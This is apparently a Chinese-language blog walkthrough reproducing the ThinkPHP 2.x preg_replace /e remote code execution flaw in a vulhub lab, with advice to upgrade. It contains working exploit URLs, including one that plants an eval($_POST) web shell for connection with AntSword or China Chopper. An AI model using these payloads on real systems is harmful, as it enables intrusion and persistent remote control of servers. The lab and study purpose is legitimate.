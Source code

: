 ```yaml
---
title: 【Thinkphp】漏洞复现-ThinkPHP 2.x-任意代码执行
date: 2025-09-02
categories:
  - Web攻防
  - 渗透测试
  - 靶场
image: images/29.webp
---
```

# 0x00 实验环境
攻击机：Win 11
靶机也可作为攻击机：Ubuntu20 （docker搭建的vulhub靶场）
vulhub靶场下载地址：
```
https://vulhub.org/zh#/environments/thinkphp/2-rce/
```
部署：
```
cd vulhub-master/thinkphp/2-rce 
docker-compose up -d 
docker ps
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134038.png)
# 0x01 影响版本
**标志**：/index.php
**版本**：thinkphp2.x
**简介**：在ThinkPHP 2.x版本中，使用preg_replace的`/e`模式匹配路由：
```
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```
导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞
大体说的还是因为php版本在**5.6.29**以下时都是支持该函数执行中间的命令的，可到了**7.x**就不支持了。简单来讲就是
```
preg_replace('正则规则','替换字符','目标字符')
```
**e** 配合函数**preg_replace()使用**, 可以把匹配来的字符串当作正则表达式执行;
**/e** 可执行模式，此为PHP专有参数，例如preg_replace函数。
例如：
```
<?php
@preg_replace('/test/e','print_r("AAA");','just test');
```
只要在“just test”中匹配到了“test”字符，就执行中间的print_r这条函数的命令。
# 0x02 漏洞复现
注：复现是比较简单的，原理需要自己去深入剖析
（1）访问页面
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134411.png)
（2）使用报错爆出thinkphp的版本2.1：
```
http://192.168.197.140:8080/index.php/111
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134632.png)
 （3）抓包或者使用插件查看一下有没有php的版本号，上面有介绍过，那个命令执行的触发条件<=php5.6.29，下面这个版本是满足条件的：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134623.png)
（4）漏洞利用：
```
http://192.168.197.140:8080/index.php?s=/index/index/xxx/${@phpinfo()}
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902134735.png)
（5）传马，使用以下语句（类似于在该页面写入了一句话木马）：
```
http://192.168.197.140:8080/index.php?s=/Index/index/xxx/${@print(eval($_POST[1]))}
```
菜刀与蚁剑均能连接：
蚁剑连接：
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902135056.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250902135103.png)
# 0x02 漏洞修复
**升级框架版本**
ThinkPHP 2.x 已停止维护，漏洞无法通过零散修复彻底解决。**最彻底的方式是升级到官方支持的最新版本**（如 ThinkPHP 5.1 或 6.x），这些版本对输入过滤、路由解析等机制进行了全面重构，安全性大幅提升。


